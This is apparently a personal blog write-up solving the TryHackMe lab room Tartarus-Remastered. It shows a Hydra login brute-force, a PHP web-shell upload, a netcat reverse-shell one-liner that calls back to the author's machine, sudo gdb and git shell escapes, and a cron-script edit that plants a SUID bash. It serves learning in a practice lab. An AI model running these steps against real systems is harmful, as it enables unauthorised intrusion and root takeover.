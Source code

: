 ```yaml
---
title: "Tartarus_writeup"
date: 2020-10-28T10:10:38-04:00
draft: false
toc: false
featured: true
summary: "Welcome to another writeup, this time we hack Tartarus-Remastered another TryHackMe room. Let's see if we get root during the lunch break at work XD"
images:
  - "img/tartarus_cover.jpg"
cover: "img/tartarus_cover.gif"
tags:
  - hacking
  - tryHackme
  - writeups
  - tartarus
---
```


# Tartarus-Remastered TryHackMe Room

Welcome back! Today I have another writeup. This time I went for a just-released room on TryHackMe called `Tartarus Remastered`. I hope you enjoy it!


- Please visit This room on TryHackMe by [clicking this link](https://tryhackme.com/room/gamingserver).
- **PLEASE NOTE:** Passwords, flag values, or any kind of answers to the room questions were intentionally masked as required by THM writeups rules. 


## Getting Started

I'll be using once again `autorecon <IP>` to scan this box. So leave that running or perform manual scans if you'd like. I'm going through this room on my lunch break at work so don't have much time XD.


## Checking Autorecon Results and gaining access.

If we look at Gobuster's results, we see a `robots.txt` file that we can access:

![](https://i.imgur.com/8tlOnnV.png)

If we look at that directory in `disallowed` entry:

![](https://i.imgur.com/k8M3EWs.png)


If we look at the FTP (nmap scan shows anonymous login is enabled), we can see something interesting:

![](https://i.imgur.com/yMT7CDr.png)

There are directories named `...` that we can access and inside there is a file.

If we check that file we see another directory is mentioned:

![](https://i.imgur.com/aD9j2RN.png)

We get a login form. This is getting quite familiar, we can try the same we did for the room called `Hydra`. Check that [here](https://www.tzero86bits.tk/posts/hydra_writeup/).

We need to construct a POST request attack with hydra. 

/sUp3r-s3cr3t

`hydra -l userid -P credentials.txt 10.10.61.206 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect" -V -F -u`

![](https://i.imgur.com/eYR3wxO.png)



We can also let gobuster now we have a new directory that it can explore:

```sh
gobuster dir --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.61.206/sUp3r-s3cr3t/ -x php,txt,html,sh,cgi
```

![](https://i.imgur.com/guZOPm4.png)

If we brute-force the login request we get the following:

![](https://i.imgur.com/DJnKg3T.png)

And if we login we get an upload form:

![](https://i.imgur.com/HqND3cF.png)

We can try to upload a semi-interactive php-bash and see if we can access that:

![](https://i.imgur.com/Ma8sKV5.png)

Now if we navigate back to that `images/uploads/` folder, we see our file is there:

![](https://i.imgur.com/ukMGnE0.png)

If we go ahead and click on that file we get our PHP-Bash working:

![](https://i.imgur.com/ytecqGV.png)

If we navigate to the home folder, we can access `d4rckh` folder and cat out the user flag:

![](https://i.imgur.com/ia7SGaw.png)

Ok so now we need to go get the root flag. Even though the semi-interactive shell we got is fine. I would like to have better access from my own terminal so let's try to get a reverse shell.

We start a `nc -nlvp 2112` in our terminal and then we try to fire a connection in the php-bash file back to our machine:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.0.34 2112 >/tmp/f`


Now that we have a reverse shell, we can navigate a bit more comfortable. If we take a look at the other folder at the home directory we see another file that mentions `git`.

![](https://i.imgur.com/vCfgrjw.png)

If we run a `sudo -l` we see that the user we have can run `gdb` as sudo. Let's check GTFObins to see if we have a way of exploiting that.

It seems there is a way to get a reverse shell, lets try that:

![](https://i.imgur.com/Bxp6Jwb.png)

Maybe I'm doing something wrong but `gdb` did not work and I still was `www-data` user after trying all the options listed on GTFbins. Let's check if we have any running cron jobs:

![](https://i.imgur.com/mBQUZT2.png)

Indeed we have and, it is a file I saw inside `d4rckh`'s folder. Since that cron job is running as root, we can try to edit it so when it runs it spaws a privileged shell back to us.

But first we really need to get gdb working so we can switch user. The idea here is to impersonate the other user `thirtytwo` and see what he can run as sudo, and if we recall the file we found earlier we know that `d4rckh` fixed the access to git for him. So we can assume `thirtytwo` could have privileged access to git executable.

After checking a while on that gdb binary, it seems we can try it as follows:

`sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex qu`

That seems to work and we are now the expected user which, as we thougth has access to git.

![](https://i.imgur.com/whF3tz3.png)

Let's check back on GTFObins if we have anything on git to get root.

We can try to run `python -c 'import pty;pty.spawn("/bin/bash");'` to get a TTY shell before we try to get root.

NOTE: also run `export TERM=xterm` to get a more responsive terminal that for instance is able to `clear` the screen.

Now let's try some of the commands suggested by GTFObins. If we check the `Sudo` section we get a few to try. The first one does not work at all in this case. Let's check the second:

`sudo git -p help config` and `!/bin/sh`

Still we need to adjust the command a bit, we need to explicitly set the user we want to switch to:

`sudo -u d4rckh git -p help config`

That seems to work and we are now the user `d4rckh`

![](https://i.imgur.com/Vh8mDXQ.png)

Ok now let's check that `cleanup.py` file that's running as a cron job. And see if we can edit it to get us root.

> NOTE: To make sure I don't lose the original file, I ran `cp cleanup.py cleanup.py.bak`

Now let's see if we can edit the file with nano:

Even though we got an error before nano opens, we are able to edit the file. We make the changes to the command being executed so it creates a copy of `bash` with privileges that we can execute later in one of our accessible directories:

![](https://i.imgur.com/sQ9FYjp.png)

We save the file and we just wait, since the file is tied to a cronjob we need to wait for it to get executed:


If you notice the command tells the system to copy bash into a `tmp/rootbash` folder. 

> NOTE: Credits to @ratiros01 on that command, I was just failing at making that work until I came across his idea for that in one of his posts.

Let's navigate to that temp folder and see if we get our bash copied. We do, it worked. Now we need to run that file, however we need to make use of the switch `-p` so the binary would not drop his privileges. Otherwise it would run with the permissions our current user has.

![](https://i.imgur.com/LtTBQvp.png)

It worked great and we are now root!, let's grab that flag and complete the room.


![](https://i.imgur.com/eXiuc6f.png)

I hope you enjoyed this room as much as I did, thanks again to @ratiros01 for his post that helped me when I got stuck.


Happy hacking and thanks for stopping by!

{{< thm_badge >}}



